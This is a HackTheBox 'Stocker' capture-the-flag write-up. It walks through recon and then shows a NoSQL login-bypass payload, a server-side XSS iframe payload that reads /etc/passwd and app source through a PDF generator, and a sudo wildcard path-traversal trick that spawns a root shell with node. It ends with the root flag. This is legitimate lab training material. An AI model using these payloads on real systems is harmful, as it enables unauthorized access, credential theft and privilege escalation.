 ```yaml
---
description: HackTheBox Stocker Writeup
cover: ../.gitbook/assets/image (2) (1).png
coverY: 0
---
```


# \[Easy] Stocker

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption><p>Machine stats</p></figcaption></figure>

### Recon <a href="#recon" id="recon"></a>

#### Services <a href="#services" id="services"></a>

`nmap`: **22 - SSH** and **80 - nginx**.

```
PORT      STATE  SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|  3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|  256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp    open  http        nginx 1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
|_http-title: Stock - Coming Soon!
| http-methods:
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: 4EB67963EC58BC699F15F80BBE1D91CC
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

#### Subdomains <a href="#subdomains" id="subdomains"></a>

`gobuster`: dev.stocker.htb

```bash
➜  ~ gobuster vhost --url http://stocker.htb/ --wordlist ~/Wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -t 100
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb/
[+] Method:          GET
[+] Threads:         100
[+] Wordlist:        /home/ennl/Wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.4
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/02/07 19:01:27 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
```

#### Website <a href="#website" id="website"></a>

So, we have plain `stocker.htb` page without anything, and subdomain page `dev.stocker.htb` with redirect to `dev.stocker.htb/login`.

### Exploitation <a href="#exploitation" id="exploitation"></a>

#### Authentication bypass via NoSQL <a href="#authentication-bypass-via-nosql" id="authentication-bypass-via-nosql"></a>

[https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass)

I found that the login is susceptible to NoSQL Authentication Bypass after experimenting with various methods. We can bypass auth using

```
{"username": {"$ne": null}, "password": {"$ne": null} }
```

so, POST-request in BurpSuite gonna be look like:

```http
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AglWx1W4l6AXfs4gYZq-X2EzGPvkRAknn.aTADasosaVSVpIrCRQR6U5P%2BRe8JeRJwk6aNyTMXe1Q
Upgrade-Insecure-Requests: 1
token: ddac62a28254561001277727cb397baf

{"username": {"$ne": null}, "password": {"$ne": null} }
```

Once the request has been modified, you get an auth bypass:

<figure><img src="../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

In browser:

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Client-Side XXS <a href="#client-side-xxs" id="client-side-xxs"></a>

Now, via page `/stock` add product to basket and intercept HTTP-request with BurpSuite.&#x20;

We have an API `/api/order` to make an order, which sends the \`\`\`basket" as a parameter. And order details are available on /api/po/ID.

`/api/order` is a dynamic PDF generator, which has vulnerable to Server Side XSS parameter `title`.

{% embed url="https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf" %}

```
{"basket":[{"_id":"638f116eeb060210cbd83a91","title":"<iframe src=file:///etc/passwd height='1500'  width='700' ></iframe>","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":3}]}
```

Response:



Doing same with `file:///var/www/dev/index.js` we get user SSH password.

![1.png](http://localhost:1313/stocker/4.png)

### Privelege Escalation <a href="#privelege-escalation" id="privelege-escalation"></a>

`sudo -l`:

```bash
angoose@stocker:~$ sudo -l 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

We got a wildcard in the path, which means we can put another path in place of that wildcard, but we still should use node.js.

[https://gtfobins.github.io/gtfobins/node/](https://gtfobins.github.io/gtfobins/node/)

Create a `root.js` in user dir:

```bash
angoose@stocker:~$ nano root.js

node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

Then, start it by:

```bash
angoose@stocker:~$ sudo node /usr/local/scripts/../../../home/angoose/root.js
```

And get the root:

```bash
bash-5.0# cat /root/root.txt

f7723bd4b96f3cd26788fcb4f4714b08

```
